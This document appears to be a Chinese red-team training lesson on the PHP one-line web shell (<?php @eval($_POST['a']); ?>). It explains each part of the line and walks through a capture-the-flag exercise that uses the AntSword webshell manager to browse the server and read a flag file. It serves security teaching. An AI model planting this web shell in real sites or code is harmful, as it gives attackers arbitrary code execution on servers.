# 护网行动红蓝攻防教程：P76：28_一句话木马 🐟



在本节课中，我们将学习一句话木马的基本原理，并通过一个简单的实战题目，掌握如何利用中国蚁剑这类工具连接并控制存在一句话木马的服务器。



## 概述

上一节我们介绍了基础的Web安全概念，本节中我们来看看一种常见的Web后门技术——一句话木马。我们将通过分析一个具体的PHP代码片段，理解其工作原理，并演示如何使用工具获取服务器上的敏感信息（如flag）。

## 一句话木马原理分析

题目中给出了一个PHP代码片段，这就是一个典型的一句话木马。

```php
<?php @eval($_POST['a']); ?>
```



以下是这句话木马各部分的解析：

*   **`<?php ... ?>`**：这是PHP代码的开始和结束标签。
*   **`@` 符号**：这是一个错误控制运算符。它的作用是，如果其后的表达式执行出错，会抑制错误信息的显示，使木马更加隐蔽。
*   **`eval()` 函数**：这是核心函数。它的功能是将传入的**字符串参数当作PHP代码来执行**。
*   **`$_POST[‘a’]`**：这是一个超全局变量，用于接收通过HTTP POST方法传递过来的参数。这里特指接收名为 `a` 的参数值。





**工作原理**：攻击者向存在此木马的网页发送POST请求，并在请求中携带参数 `a`。`a` 的值是一段希望服务器执行的PHP代码（例如 `phpinfo();` 或 `system(‘whoami’);`）。服务器端的 `eval()` 函数会执行这段代码，从而实现控制服务器的目的。



## 实战：利用蚁剑连接木马



既然题目已经提示存在一句话木马，我们的目标就是使用工具连接它并找到flag。



以下是连接和利用一句话木马的步骤：

1.  **打开管理工具**：我们使用“中国蚁剑”这款WebShell管理工具。同类工具还有哥斯拉、冰蝎等。
2.  **添加目标数据**：在蚁剑界面右键，选择“添加数据”。
3.  **配置连接信息**：
    *   **URL地址**：填写题目给出的网页地址。
    *   **连接密码**：填写一句话木马中接收参数的名称，本例中为 `a`。
4.  **测试并连接**：点击“测试连接”，显示成功后，添加并双击该数据行。
5.  **浏览服务器文件**：成功连接后，可以像操作本地文件一样浏览服务器目录。在根目录下找到名为 `flag` 的文件。
6.  **获取Flag**：查看 `flag` 文件的内容，将其提交即可完成题目。



这道题的核心在于理解一句话木马的原理，并掌握使用蚁剑等工具进行连接的方法。如果不了解这些，解题将会非常困难。



## 总结



本节课我们一起学习了Web安全中一句话木马的相关知识。我们分析了PHP一句话木马 `<?php @eval($_POST[‘a’]); ?>` 的代码结构和工作原理，认识到 `eval()` 函数执行任意代码的危险性。随后，我们通过实战演练，使用中国蚁剑成功连接了存在一句话木马的服务器，并找到了目标flag文件。理解这些基础是进行应急响应和渗透测试的重要技能。